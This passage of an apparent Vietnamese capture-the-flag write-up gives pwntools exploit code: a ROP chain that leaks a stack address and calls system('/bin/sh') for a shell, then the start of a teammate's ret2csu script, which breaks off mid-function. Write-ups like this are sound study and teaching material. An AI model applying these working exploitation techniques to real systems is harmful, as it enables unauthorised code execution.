```python

stack_leak2 = int(p.recvline()[:-1],16)
log.info(f'stack leak2: {hex(stack_leak2)}')
# get shell
pl_get_shell = p64(pop_rdi) + p64(pop_rdi) +  p64(next(libc.search(b'/bin/sh\x00'))) + p64(pop_rdi+1) + p64(libc.sym.system)

pl_get_shell = pl_get_shell.ljust(256,b'\x90')
pl_get_shell += p64(stack_leak2) + p64(0x0000000000400c38)
input()
p.sendline(pl_get_shell)


p.interactive()
```

dưới đây là 2 solution khác của 1 ng trong team mình ```0x1337```

payload thứ nhất sẽ là dùng ret2csu và thứ hai cũng tương tự nhưng 1 cái để lấy shell và 1 cái để đọc flag

script1 rce : 

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('chal')
libc = ELF("./libc.so.6")
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x50+1100+0', '-e']
context.log_level = 'debug'

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], ssl=True, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def init():
    global io

    io = start()


def ret2csu(rbx, rbp, r12, r13, r14, r15):
    csu_pop = 0x400e8a

    payload = flat(
        [
            csu_pop,
            rbx,
            rbp,
```